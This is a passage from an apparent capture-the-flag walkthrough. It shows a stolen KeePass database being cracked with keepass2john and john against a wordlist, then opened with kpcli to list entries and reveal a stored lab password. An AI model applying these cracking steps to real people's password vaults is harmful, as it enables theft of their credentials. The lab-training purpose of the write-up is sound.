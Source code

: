 Right after that we can kill the server and see that the file is on the attacker machine

```
$ ls -la CEH.kdbx
-rwxr-xr-x 1 root root 2846 Sep 18  2017 CEH.kdbx
```

To crack the kdbx file we need to first run it through `keepass2john` so that a hash can be generated that can be cracked with `john`. Then that hash can be passed to `john` for final cracking.

```
$ keepass2john CEH.kdbx > kdb.john
$ john --wordlist=/usr/share/wordlists/rockyou.txt kdb.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 0.16% (ETA: 13:03:00) 0g/s 2763p/s 2763c/s 2763C/s tuffy..tayla
moonshine1       (CEH)
1g 0:00:00:20 DONE (2024-05-03 11:19) 0.04995g/s 2746p/s 2746c/s 2746C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

With that we were able to crack the password for this kdbx file.

Now, we can open this file using the CLI version of KeePass which is `kpcli`. 

```
$ kpcli --kdb=CEH.kdbx
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
CEH/
kpcli:/> cd CEH
kpcli:/CEH> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Backup stuff
1. Bank of America                                   www.bankofamerica.com
2. DC Recovery PW
3. EC-Council                               www.eccouncil.org/programs/cer
4. It's a secret                                 localhost:8180/secret.jsp
5. Jenkins admin                                            localhost:8080
6. Keys to the kingdom
7. Walmart.com                                             www.walmart.com
kpcli:/CEH> show -f 4

Title: It's a secret
Uname: admin
 Pass: F7WhTrSFDKB6sxHU1cUn
  URL: http://localhost:8180/secret.jsp
Notes:
```